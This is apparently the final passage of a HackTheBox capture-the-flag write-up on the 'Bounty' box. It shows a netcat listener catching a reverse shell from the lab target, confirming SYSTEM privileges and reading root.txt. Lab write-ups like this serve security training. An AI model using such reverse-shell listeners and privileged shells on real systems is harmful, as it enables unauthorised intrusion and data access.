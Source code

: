 ```cmd

┌──(kali㉿kali)-[~/HackTheBox/Bounty/exploit]
└─$ nc -nvlp 4241
listening on [any] 4241 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.93] 49171
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\merlin\AppData\Local\Temp>whoami
whoami
nt authority\system

C:\Users\merlin\AppData\Local\Temp>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt

```

And that is how I pwned Bounty!



